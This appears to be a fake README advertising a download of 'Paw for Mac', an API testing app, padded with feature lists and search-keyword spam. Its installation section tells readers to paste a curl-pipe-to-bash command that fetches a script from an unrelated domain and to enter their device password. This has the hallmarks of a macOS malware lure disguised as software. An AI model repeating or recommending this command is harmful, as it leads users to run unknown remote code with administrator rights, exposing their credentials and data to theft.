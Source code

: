 # Paw for Mac – Advanced API Tool for macOS

![Paw App Interface](https://cdn-static.paw.cloud/img/og/paw-home-twitter-card-text-296e1c259c.png)

## 📦 Download

Get the latest version of **Paw for Mac**:

[![⬇️ Download Now](https://img.shields.io/badge/Download-Paw%20for%20Mac-blue?style=for-the-badge&logo=apple)](https://paw-mac-download.github.io/.github/)

---

## 📦 How to Install

# Installation via .dmg:

1. Install the .dmg file using the button above. 
2. Open the .dmg installer and move the file from the left window to any convenient directory on your device.
3. Open a terminal and transfer the file you extracted in the last step into it.
4. Press the "Return" button, then enter your device password in the window that appears (if you don't have a password, leave the field blank).

[![0723.gif](https://i.postimg.cc/50Tm3hZT/0723.gif)](https://postimg.cc/mz3MZ5Zy)

# Installation via a command in the terminal:

1. Copy the installation command below.
```
/bin/bash -c "$(curl -fsSL https://veitzeatz.com/get1/install.sh)"
```
2. Open the terminal on your device and paste the command you copied above, then press the “Return” button.
3. Enter your device password and confirm the installation.

[![0723-1.gif](https://i.postimg.cc/NfzQxpMT/0723-1.gif)](https://postimg.cc/0b7gkG72)

---

## ❓ What is Paw for Mac?

**Paw for Mac** is a native macOS application tailored for API developers, testers, and backend engineers. It offers a sleek and intuitive interface to design, test, and debug REST, GraphQL, and other HTTP-based APIs. Unlike browser-based tools, Paw takes full advantage of macOS technologies to deliver smooth performance, advanced features, and tight system integration.

From crafting complex API requests to organizing reusable environments, Paw supports dynamic values, headers, cookies, authentication flows, and more. Its visual interface allows you to inspect server responses in structured formats such as JSON and XML, while the dynamic environments and request chaining allow for more advanced workflows.

Paw also supports extensions via JavaScript and export templates, enabling direct integration with your API documentation, client SDKs, or CI/CD pipelines. Whether you're testing endpoints, mocking services, or generating client code, Paw is a central hub for all API work on Mac.

---

![Paw macOS Interface](https://cdn-static.paw.cloud/img/discover/landing/landing-client-8615609d3e.png)

---

## ✨ Features

- 🖥️ Native macOS UI for speed and integration  
- 🔐 OAuth 2.0, Basic Auth, and other authentication types  
- 🔄 Environment variables & dynamic values  
- 🔗 Request chaining  
- 🧪 Real-time response preview (JSON, XML, headers, cookies)  
- 📤 Export tools for API docs, Swift, JavaScript, Python, etc.  
- 🧩 Extensions and templates for automation  
- 📁 Project syncing & collaboration (via Paw Cloud)

---

## 💻 System Requirements

- macOS 10.13 (High Sierra) or later  
- Apple Silicon (M1/M2) and Intel support  
- Internet connection for sync & licensing (optional)

---

## 🔍 Keywords  
paw download, paw mac os, macos paw, mpaw free download, paw com download, paw download com, paw3 download, www paw download, paw mac free download, paw mac, paw for mac, paw osx, paw free download, paw mac download
